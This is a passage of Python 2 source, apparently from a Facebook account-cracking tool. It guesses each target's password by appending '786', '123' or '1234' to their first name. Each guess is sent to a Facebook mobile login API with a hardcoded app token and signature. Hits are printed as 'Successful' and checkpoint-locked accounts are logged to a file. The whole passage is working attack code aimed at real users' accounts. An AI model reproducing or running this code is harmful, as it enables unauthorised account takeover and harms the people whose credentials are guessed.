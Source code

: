 						x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
						z = json.loads(x.text)
						print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass2	
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass2	
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '786'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
								z = json.loads(x.text)
								print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass3	
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass3	
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
										z = json.loads(x.text)
										print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass4	
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass4	
											cek = open("out/Checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '1234'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
												z = json.loads(x.text)
												print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass5	